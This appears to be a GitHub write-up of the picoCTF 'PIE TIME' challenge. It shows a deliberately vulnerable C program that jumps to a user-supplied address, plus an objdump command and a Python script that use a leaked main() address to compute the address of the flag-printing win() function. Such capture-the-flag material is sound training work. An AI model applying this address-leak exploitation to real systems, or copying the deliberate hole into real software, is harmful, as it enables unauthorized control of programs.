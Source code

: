 # PIE TIME Challenge

- [Challenge Description](#Challenge-Description)
- [Solution](#Solution)

## Challenge Description
```
Can you try to get the flag? Beware we have PIE!
Additional details will be available after launching your challenge instance.

Hint: Can you figure out what changed between the address you found locally and in the server output?
```

Challenge Link: https://play.picoctf.org/practice/challenge/490

## Solution

Given vuln.c file and the binary of the file

```
┌──(hahmed㉿kali)-[~/Downloads]
└─$ cat vuln.c    
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### 1. Understand what the program is doing 
The program prints the address of main(), which leaks an address inside the binary. It can be exploited by redirecting execution to the win() function by supplying its address.

### 2. Calculate the win_address.
  #### Get the win() and main() offset
  ```
  objdump -d vuln | grep -E "win|main"
  ```
  
  ![Screenshot 2025-03-15 232233](https://github.com/user-attachments/assets/fe906c03-8bfa-42c2-bfce-4bc5dd1ae72a)
  
  
  #### Use python script to calculate. Enter leaked main address given in the running instance into the script.
     
  ```
  # Offsets from objdump
  win_offset = 0x12a7
  main_offset = 0x133d
  
  # Replace with the actual leaked address of main()
  leaked_main = int(input("Enter leaked main address (hex): "), 16)
  
  # Calculate win()'s address
  win_addr = leaked_main + (win_offset - main_offset)
  
  print(f"Calculated win() address: {hex(win_addr)}")
  ```
  ![Screenshot 2025-03-15 232621](https://github.com/user-attachments/assets/3a634634-87b6-47aa-9488-f602da8bc71c)
   

### 3. Put the calculated win() address into the running instance of the program. This will get the flag.
![Screenshot 2025-03-15 232707](https://github.com/user-attachments/assets/0a960772-844b-4467-8046-b2306ff29bb8)


